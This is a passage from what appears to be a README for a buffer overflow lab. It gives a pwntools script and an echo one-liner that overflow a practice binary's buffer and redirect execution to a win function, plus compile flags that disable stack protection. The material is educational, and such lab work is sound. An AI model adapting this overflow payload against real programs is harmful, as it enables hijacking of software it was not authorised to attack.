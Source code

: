 ```bash
```

### 2. Creating Buffer Overflow Exploit

```python
from pwn import *

# Buffer size and offset calculation
BUFFER_SIZE = 64
RETURN_ADDR_OFFSET = 72  # RBP + 8 bytes

# Get win_function address from GDB
win_addr = 0x401146  # Example address

# Create payload
payload = b"A" * RETURN_ADDR_OFFSET  # Buffer overflow
payload += p64(win_addr)  # Return address overwrite

# Run exploit
p = process("./compiled/vulnerable_code")
p.sendline(payload)
p.interactive()
```

### 3. Manual Test

```bash
# Test with hex payload
echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x46\x11\x40\x00\x00\x00\x00\x00" | ./compiled/vulnerable_code
```

### 4. Expected Result

```
--- Zafiyet Basariyla Somuruldu! ---
```

When you run the exploit, you should see the success message defined in the `win_function` in the program's output. This means you have successfully taken control of the program's flow.

## Linux Compatibility

This lab is designed to work on both Linux and macOS systems:

### Compilation for Linux
```bash
# Special compilation script for Linux
./compile_linux.sh

# Or manual compilation
g++ -m64 -fno-stack-protector -z execstack -no-pie -o compiled/vulnerable_code source_code/vulnerable_code.cpp
```
